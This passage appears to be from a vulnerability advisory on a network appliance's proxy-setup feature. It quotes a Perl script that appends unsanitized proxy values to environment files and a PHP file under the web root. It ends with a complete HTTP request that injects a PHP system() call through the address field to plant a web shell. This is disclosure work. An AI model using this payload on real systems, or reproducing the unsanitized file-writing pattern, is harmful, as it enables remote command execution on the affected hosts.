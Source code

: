 ```
```

The `enableProxy` function takes in the proxy configuration values, stores them in the backend database associated with a `proxyid`, and then calls the external Perl script `./shell/enableProxy.pl` passing the `$proxyid`.

```
sub enable_proxy {
    my $proxyid = shift;

    my $db = riscUtility::getDBH('risc_discovery',1);
    my $config = $db->selectrow_hashref("select * from proxy where id = $proxyid and enabled = 1");
<snip>
$httpproxy = "http://$config->{'address'}:$config->{'httpport'}";
$httpsproxy = "https://$config->{'address'}:$config->{'httpsport'}";
$HTTPPROXY = $httpproxy;
$HTTPSPROXY = $httpsproxy;

<snip>
## open /etc/riscenvironment for writing, sourced by /etc/profile
my $fh;
open($fh,">>","/etc/riscenvironment");
print $fh "export http_proxy=\"$httpproxy\"\n";
print $fh "export https_proxy=\"$httpsproxy\"\n";
print $fh "export HTTP_PROXY=\"$HTTPPROXY\"\n";
print $fh "export HTTPS_PROXY=\"$HTTPSPROXY\"\n";
print $fh "export HTTPS_PROXY_USERNAME=\"$HTTPSUSER\"\n";
print $fh "export HTTPS_PROXY_PASSWORD=\"$HTTPSPASS\"\n";
close($fh);
## open /etc/environment for writing, used by cron jobs
open($fh,">>","/etc/environment");
print $fh "http_proxy=\"$httpproxy\"\n";
print $fh "https_proxy=\"$httpsproxy\"\n";
print $fh "HTTP_PROXY=\"$HTTPPROXY\"\n";
print $fh "HTTPS_PROXY=\"$HTTPSPROXY\"\n";
print $fh "HTTPS_PROXY_USERNAME=\"$HTTPSUSER\"\n";
print $fh "HTTPS_PROXY_PASSWORD=\"$HTTPSPASS\"\n";
close($fh);
## open /srv/httpd/htdocs/proxy-config.php for writing, used by PHP
open($fh,">>","/srv/httpd/htdocs/proxy-config.php");
print $fh "<?php\n";
print $fh "\tputenv('http_proxy=$httpproxy');\n";
print $fh "\tputenv('https_proxy=$httpsproxy');\n";
close($fh);
```
The code above from the `enableProxy.pl` script queries the database for the configuration values associated with the supplied `$proxyid` and then writes these values to the files `/etc/riscenvironment`, `/etc/environment`, and `/srv/httpd/htdocs/proxy-config.php`. At no point do these values get sanitized, allowing for writing arbitrary content:

Write Webshell:
```
POST /proxy_setup.php HTTP/1.1
Host: 192.168.0.77
Content-Type: application/x-www-form-urlencoded
Content-Length: 92

operation=enable&address=127.0.0.1');system($_GET["atredis"]);//&httpport=80&httpsport=443
```
